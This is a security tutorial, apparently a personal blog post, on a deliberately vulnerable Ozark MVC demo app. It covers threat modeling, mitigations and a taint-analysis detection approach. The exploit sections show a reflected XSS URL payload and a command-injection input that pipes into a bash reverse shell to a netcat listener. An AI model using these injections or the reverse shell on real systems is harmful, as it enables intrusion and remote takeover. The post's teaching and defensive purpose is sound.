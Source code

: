 ```yaml
---
title: 'Cross Site Scripting (XSS) and Command Injection Tutorial in Ozark'
date: 2020-09-30
permalink: /posts/2012/08/blog-post-1/
tags:
  - cool posts
  - category1
  - category2
---
```


#### *So stay tune for a precise solution using theory of strings soon...*

**Problem Statement:**
======

The challenge is to code up an application exhibiting a set
of (potential) weaknesses feasible in the Ozark framework. 

<a href='https://github.com/farif/Ozark-mvc-j2ee'>Source Code</a>

 
**\[Research & Threat Modeling\]:**

Model-View-Controller (MVC) is a framework/design-pattern for building
web applications. It introduces a paradigm of clean design by separating
concerns about modeling, presentation, and business logic in an
application.

MVC 1.0 (ref: JSR 371) is a property action-oriented framework, as
compared to the (predecessor) UI component-oriented MVC. It provides a
lot of flexibility to developers through features like: doesn't hide
HTTP request and response mechanism, didn't dictate or constraint the
use of HTML/CSS/JS and the actions-events are directly passed on to the
backend. Unfortunately, these features comes at the price of the
security by exposing too much attack surface. Even though Ozark API
\[Chapter 4 (ref: JSR 371)\] does provide few mitigatations functions
and/or controls but mostly the security aspect is overlooked. For
example, CSRF protection via tokens and XSS encoder to escape malicious
JS but this support isn't enough to fend off all security threats. Thus
required a comprehensive security assessment in every aspect of the
software development life cycle.

The reference implementation for MVC 1.0 is called Ozark \[2\]. A quick
round of threat modeling reveals that the natively developed application
can be easily compromised. Because the framework didn\'t give much
consideration to the security aspects and exposes too much attack
surface. We have developed an application to demonstrate that reflects
on critical weakness, one that impacts the client-side while the other
results in a complete server-side compromise (consult Fig 1).

> ![](http://farif.github.io/files/blogs/ozark/ozark_app.png)
>
> Fig 1: Threat Model for Ozark App.

The two exposed weakness are:

**\[Vulnerable Application 1\] Cross-Site Scripting (XSS): Reflected**

It is an application flaw that exploits victims trust in the
application. The application accepting non-trusted data (user-provided
inputs) and returning it to the browser without validation or
sanitization that may lead to run malicious scripts in the victim\'s
browser resulting to a compromise via hijacked sessions, stolen cookie,
invalid redirects, etc. The mitigation is to escape or filter out all
the special characters in the reply and help to avoid any reflected
script back to the victim.

**\[Vulnerable Application 2\] Command Injection:**

It is an application flaw that exploits application trust in the user.
The adversary goal is to execute arbitrary commands using controls
(forms, cookies, HTTP headers, etc.) provided with the vulnerable
application. The application passes unsafe user-supplied data to the
server-side and without proper validation it gets executed with a
handsome privilege. The prevention or mitigation for command injection
attacks is to employ rigrious input validation.

**\[Test Applications\]**

**Test Vulnerable Application 1:**

It is a simple greeting application, provided with a user name returns a
greeting message. The attacker can able to execute a malicious JS on the
victims-machine through malformed input appended in the input parameter
to the URL.

![thumbnail](http://farif.github.io/files/blogs/ozark/fig_1.png)

**Vulnerability:** Reflected Cross-site Scription (XSS).

**Exploit:**

ozark-vuln-app/ozark-vuln/XSS?name=Alex+%3Cscript%3Ealert(%22Bingo%22)%3C/script%3E

![](http://farif.github.io/files/blogs/ozark/fig_2.png)

**NOTE:** If the victim is using Google Chrome, it blocks the execute
and return an error page with the exception:\
ERR\_BLOCKED\_BY\_XSS\_AUDITOR\
This check can be bypassed but we didn't investigated it further.

**Test Vulnerable Application 2:**

It is the same application that sends an email to the user-provided
email address. An attacker pwned the server machine (even the one behind
the firewall or in a protected network) by simply executing a reverse
shell.

![](http://farif.github.io/files/blogs/ozark/fig_3.png)

**Vulnerability:** Command Injection

**Exploit:**\
Deploying a reverse shell.

Listening on attacker's machine:

\#sudo nc -l 5555

Fill in the 'E-Mail:' box:

test\@hotmail.com \| bash -i \>& /dev/tcp/127.0.0.1/5555 0\>&1

![](http://farif.github.io/files/blogs/ozark/fig_4.png)

![](http://farif.github.io/files/blogs/ozark/fig_5.png)

![](http://farif.github.io/files/blogs/ozark/fig_6.png)

**Test Safe Application 1:**

This the counterpart of previous vulnerable application. The security
checks are implemented to stop cross-site scripting attack.

![](http://farif.github.io/files/blogs/ozark/fig_7.png)

**Mitigation:**

The mitigation is to escape/encode the special character's in the
provided URL before sending it back.

No reflected XSS attack is possible in it.

![](http://farif.github.io/files/blogs/ozark/fig_8.png)

**Test Safe Application 2:**

This the counterpart of the previous vulnerable application. The
security checks are implemented to stop command injection attack.

![](http://farif.github.io/files/blogs/ozark/fig_9.png)

**Mitigation:**

The fix is to validate the email address contents before passong on the
program that execute mail client command.

Fail to execute the injected command.

![](http://farif.github.io/files/blogs/ozark/fig_10.png)

**Disclaimer:** The code snippets of 'Michael Scharhag' \[4\] has been
used to develope above applications.

**\[Detection\]**

Due to a large volume of web applications, the need for automated
analysis tools is on the rise. For detection, we simply employ taint
analysis to discover the vulnerable code in the aforementioned
application. The goal of our analysis is to determine whether it is
possible that user-provided data reaches sensitive a sink without being
properly sanitized. More precisely, through annotations, we collect data
orignated from untrusted source/user inputs (taint seeds). These
annotations are provided with the classes (\@BeanParam, \@QueryParam).

Using a tainted policy (similar to the one suggested in \[5,6\]) that
propagates the tainted values in the program execution paths and then
checks the taint status at a critical locations (taint sinks). The taint
sinks in our case are the path to the function-calls that execution
system command and/or alter the model state which is returned to the
user without going through any validation check.

**Algorithm** (algorithm pseudocode):

Input: Java Classes with annotated functions.

ouput: Safe or Unsafe Program.

prog\_ast = antlr\_parser(input\_program)

prog\_cfg = build\_CFG(prog\_ast) (Control Flow Graph)

safe\_flag = apply\_tainted\_policy(prog\_cfg)

Return safe\_flag;

**End**;

The proposed method is a little bit imprecise (not sound and definitely
incomplete). It might fail to detect the issues and/ or raise false
alarms due to under-tainting or over-tainting. 

<span style="color:red">*So stay tune for a precise solution using theory of strings soon.*</span>

**References:**

\[1\] MVC 1.0 - Model-View-Conrtoller Specification, Ivar Grimstad,
Christain Kaltepoth, v1.0, September 2018
([[https://jcp.org/en/jsr/detail?id=371]{.underline}](https://jcp.org/en/jsr/detail?id=371))

\[2\] Ozark - Reference Implementation for MVC 1.0 \[Oracle Website\]

\[3\] Vulncat.fortify.com/en

\[4\]
https://github.com/mscharhag/java-ee-8-mvc/tree/master/getting-started

\[5\] Schwartz, Edward J., Thanassis Avgerinos, and David Brumley. \"All
you ever wanted to know about dynamic taint analysis and forward
symbolic execution (but might have been afraid to ask).\" 2010 IEEE
symposium on Security and privacy. IEEE, 2010.

\[6\] Vogt, Philipp, et al. \"Cross Site Scripting Prevention with
Dynamic Data Tainting and Static Analysis.\" NDSS. Vol. 2007. 2007.